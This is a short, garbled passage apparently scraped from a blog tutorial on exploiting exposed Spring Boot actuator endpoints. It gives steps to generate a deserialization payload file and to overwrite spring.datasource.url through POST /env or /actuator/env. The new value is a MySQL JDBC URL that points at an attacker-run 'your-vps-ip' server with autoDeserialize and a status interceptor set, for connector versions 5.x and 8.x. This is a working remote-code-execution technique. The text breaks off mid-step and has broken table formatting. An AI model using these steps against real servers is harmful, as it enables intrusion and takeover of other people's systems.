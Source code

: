 Generate a deserialized payload file in the same directory as the script for the script to use. payload.ser\
[](https://www.blogger.com/#)

**Step 3:** Set the spring.datasource.url property

- Modifying this property will temporarily make all the normal database services of the website unavailable, which will affect the business, please operate with caution!

MySQL-connector-java 5.x version sets the property value to :

|

 |

jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

 |

mysql-connector-java 8.x version sets the property value to :

|

jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

 |

**spring 1.x**

**\
**

```
POST /envContent-Type: application/x-www-form-urlencodedspring.datasource.url=corresponding property value
```

**spring 2.x**

|

1

2

3

4

5

 |

POST /actuator/env
